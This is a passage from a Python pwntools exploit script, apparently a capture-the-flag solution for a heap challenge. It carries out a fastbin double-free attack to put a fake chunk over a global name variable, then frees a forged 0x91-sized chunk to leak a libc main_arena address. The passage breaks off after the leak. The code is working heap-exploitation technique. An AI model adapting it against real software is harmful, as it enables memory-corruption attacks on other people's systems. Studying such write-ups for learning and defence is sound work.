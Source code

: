```python
    p.sendafter('> ', name)
    return p.recvuntil('1.')

def start():
    if not args.REMOTE:
        return process(BINARY)
    else:
        return remote(HOST, PORT)

p = start()
if not args.REMOTE and args.GDB:
    debug([])

'''
For step 1, we want a libc leak. PIE is disabled, and the only leak we have is when we
"reintroduce" ourselves, and the program tells us what our name is.

Knowing this, the easiest way to get a libc leak is to first get a fake chunk on top of
the name variable by doing a fastbin attack. Then, we simply change the name to make it
appear to be a chunk of size 0x91, then free it. This causes the addr of main_arena+0x58
to be placed in the fd and bk fields of our fake chunk. The fd and bk fields are
essentially name[2] and name[3] respectively, if each index is considered 8 bytes long
'''

# Initialize our name to look like a fake chunk header with size 0x61
initialize(p64(0) + p64(0x61) + p64(0))

# Address of name global variable (PIE is disabled)
fake_chunk = 0x602040

# Quick double free fast bin attack to get a chunk on top of name
# Allocate three chunks for setup (third chunk might not be needed)
add(0x58, 'A'*0x58) # 0
add(0x58, 'B'*0x58) # 1
add(0x58, 'C'*0x58) # 2

# Double free chunk 0
free(0)
free(1)
free(0)

# Get chunk 0 back, and overwrite it's FD with fake chunk
add(0x58, p64(fake_chunk) + 'A'*0x50) # 3

# Three more frees, chunk 6 will be at name
add(0x58, 'B'*0x58) # 4
add(0x58, 'A'*0x58) # 5
add(0x58, 'C'*0x58) # 6

# Next, we change name so that it looks like a fake chunk with size 0x91
# We also construct a bunch of fake chunks.
# Only two fake chunks are required, I just made a bunch of them cuz I was lazy
# The two fake chunks allow us to free this 0x91 sized chunk and bypass security checks
reintroduce(p64(0) + p64(0x91) + p64(0x21)*23)

# Free fake chunk, places the address of main_arena+0x58 into its fd and bk fields
free(6)

# We overwrite the chunk header with 'AAAAAAA\n'
# This causes reintroduce to say our name, and print out 'AAAAAAA\n<main_arena_addr>'
# We just format it correctly to get the leak
leak = u64(reintroduce('A'*(0x8+0x7) + '\n').split('\n')[1][:-1].ljust(8, '\x00'))

```